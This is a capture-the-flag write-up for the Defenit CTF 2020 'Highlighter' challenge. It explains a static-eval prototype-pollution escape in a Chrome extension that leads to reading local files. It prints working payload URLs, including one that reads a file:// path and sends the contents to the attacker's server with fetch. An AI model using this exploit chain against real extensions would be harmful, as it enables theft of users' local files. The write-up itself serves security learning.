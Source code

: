 # Highlighter  
*Defenit CTF 2020 - Web 857*  
  
*Writeup by Payload as ToEatSushi*

## Problem

Do you like the Chrome extension?  
I made a tool to highlight a string through this.  
Use it well! :)

## `static-eval` prototype pollution

After hard fighting with `background.js`, I noticed it has a function that
acts as `eval`, but **safely**. With some google searches, we can find it's
`static-eval` of node.

Also, we can find **very** interseting [blog
post](https://blog.p6.is/bypassing-a-js-sandbox/) about prototype pollution in
`static-eval`, written by p0six who is a publisher of this problem.

## `.split()`

With prototype pollution, we overwrote `String.split` which is called by
`onMessage` after `static-eval`. At first, we succeed to make `alert(1)` in
**chrome extension**, not in user content (It's important).

```  
http://highlighter.ctf.defenit.kr/read?id=84#''['__proto__']['__defineGetter__']('split',function(){return/**/function(x){return/**/{[alert(1)]:1}};});  
```

## `file://`

When we looked `manifest.json`, there are host permissions over all
`http://*/*`, `https://*/*`, and `file://*/*`. These host permissions allows
chrome extensions to make a request without cross origin restrictions. Thus,
when we can evaluate javascript code in **Chrome extension**'s side, we can
read local file.

## `file:///`

However, according to `docker-compose.yml`, we have to know where the flag is
at first. Since chrome supports directory listing in file scheme, thus just
making a request to `file:///` give an index page of the root directory, and
we can know a name of folder.

## Exploitation

1. Pollute prototype using vulnerability of `static-eval`  
2. Overwrite `.split()` function to fetch local file, and send it to our server  
3. Read `file:///` first, then `file://{secret}/flag`.

## Payload

```  
http://highlighter.ctf.defenit.kr/read?id=2#''['__proto__']['__defineGetter__']('split',function(){return/**/function(x){return/**/{[(function(){var/**/r=new/**/XMLHttpRequest();r.open('GET','file:///6339e914b333b35d902a2dfd2c415656/flag',false);r.send();r.responseText;fetch('http://{our
server}/'+btoa(r.responseText));})()]:1,'zxcv':'1'}};})  
```

**`Defenit{Ch20m3_3x73n510n_c4n_b3_m0re_Inte7e5t1ng}`**  

Original writeup (https://github.com/mdsnins/ctf-
writeups/blob/master/2020/Defenit%20CTF/Highlighter/highlighter.md).